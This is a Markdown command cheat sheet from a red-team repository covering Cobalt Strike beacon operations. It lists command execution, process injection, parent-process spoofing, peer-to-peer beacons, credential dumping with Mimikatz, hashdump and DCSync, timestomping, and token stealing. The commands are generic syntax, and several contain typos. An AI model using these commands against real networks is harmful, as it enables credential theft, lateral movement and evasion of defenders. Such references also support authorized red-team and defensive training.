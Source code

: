 <p align="center">
  <img width="500" height="100" src="https://github.com/bigb0sss/RedTeam/blob/master/CobaltStrike/cs_logo.png">
</p>

## Command References

### Beacons
#### Sleep
```
sleep 60 50               ; Sleep 60 sec with 50% of jitter (Call back between 30 to 60 secs randomly) 
```

#### Command Execution
##### Default
```
run [command]
```
##### powershell.exe
```
powershell-import [/path/to/your.ps1]       ; Running it from your localhost
powershell [cmdlet] [args]
```
##### powerpick (Using PS w/o powershell.exe)
```
powrepick [cmdlet] [args]
```

##### psinject (Using PS within another process)
```
psinject [PID] [x86|x64] [cmdlet] [args]
```

##### .NET
```
execute-assembly [/path/to/your.exe]        ; Running it from your localhost
```

##### cmd.exe
```
shell [command] [args]
```

#### Session Passing
```css
spawn [x86|x64] [Listener]
inject [PID] [x86|x64] [Listener]
```

#### Parent Process Modification
```
ppid [Choice of your parent process (e.g., iexplore.exe)]
spawnto [x86|x64] [New parent process]
```

#### SMB Beacn
```
spawn [SMB-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") SMB beacon 
inject [PID] [x86|x64] [SMB-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```

#### TCP Beacn
```
spawn [TCP-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") TCP beacon 
                                            ; TCP beacons can be also run locally by clicking "Bind to localhost only" on GUI
inject [PID] [x86|x64] [TCP-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```
#### Credentials and Hashes
```
logonpasswords                              ; Run Mimikatz
hashdump                                    ; Get SAM database hashes
```

#### Mimikatz
```
mimikatz [command] [args]                   ; Runs a Mimikatz command
mimikatz ![command] [args]                  ; Elevate to SYSTEM and run Mimikatz command
mimikatz @[command] [args]                  ; User current token to run Mimikatz command
```
#### DCSync
```
dcsync [domain] [DOMAIN\user]
```

#### File Download
```
download [file]
cancel [file|*]
downloads
View --> Downloads --> Sync Files
```

### File Upload
```
upload [/path/to/file]
timestomp [Destination] [Source]            ; Changing file's timestamps (*Do not recommend using it during the engagement) 
```

### Token Stealing
```
ps                                          ; List process
steal_token [PID]                           ; Stealing token
getuid                                      ; Identify/confirm who you are
rev2self                                    ; Drop/revoke token

spawnas DOMAIN\user password                ; Spawn a beacon w/ alternative creds
make_token DOMaIN\user password             ; Create a token. So when you do a make_token, when you do 'whoami' you will 
                                            ; still see your current user account; however, if you do a remote 'whoami' 
                                            ; (maybe against DC) you will see that the maked token user.
```
